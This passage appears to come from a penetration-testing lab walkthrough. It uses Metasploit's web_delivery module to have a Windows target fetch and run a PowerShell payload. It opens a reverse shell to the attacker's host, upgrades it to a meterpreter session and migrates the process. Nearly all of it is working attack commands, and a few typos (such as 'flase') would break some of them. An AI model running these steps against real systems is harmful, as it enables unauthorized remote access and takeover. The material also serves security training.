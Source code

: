 The **PrivescCheck** script enumerates common Windows configuration issues that can be leveraged for local privilege escalation.

In this case the target **system doesn't have any vulnerable services** running on it. So the way we're going to gain access to the system is by utilizing a Metasploit framework module called **web_delivery**.

```shell
service postgresql start && msfconsole
search web_delivery
use exploit/multi/script/web_delivery
show info
```

This particular module sets up a web server that hosts a payload based on the target operating system. Once you hit exploit, it then generates some PowerShell code, we'll then copy that PowerShell code and execute it on the target system, which will consequently download the payload that is being hosted on the web server and execute it. This will provide us with a standard command shell session, which we can then upgrade to a meterpreter session.

```shell
show options
set TARGET PSH\ (Binary) # PowerShell
set PAYLOAD windows/shell/reverse_tcp
set PSH-EncodedCommand flase
set LHOST <kali_IP> # eth1
exploit
# It will generate some PowerShell code. Copy the PowerShell code.

# Now switch to the Windows system, open a Command Prompt Session and paste the code then enter. Don't worry if the window disappears.

# Back to the Kali system we can see Command shell session 1 opened. Hit enter.
sessions
sessions 1 
# We currently have access to the target system through a simple commnad shell session.
whoami
hostname

# Before move forward we want to migrate this command shell session to a mterepreter session. 
background
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
set LHOST <kali_IP> # eth1
set SESSION 1
show advanced
# We need to set an additional option that is...
set WIN_TRANSFER VBS # Instead of POWERSHELL
show options
exploit
# Stop the exploit multi handler.

sessions
sessions 2 # This is the meterpreter session

sysinfo
pgrep explorer
migrate <process_id>
getuid
getprivs
```
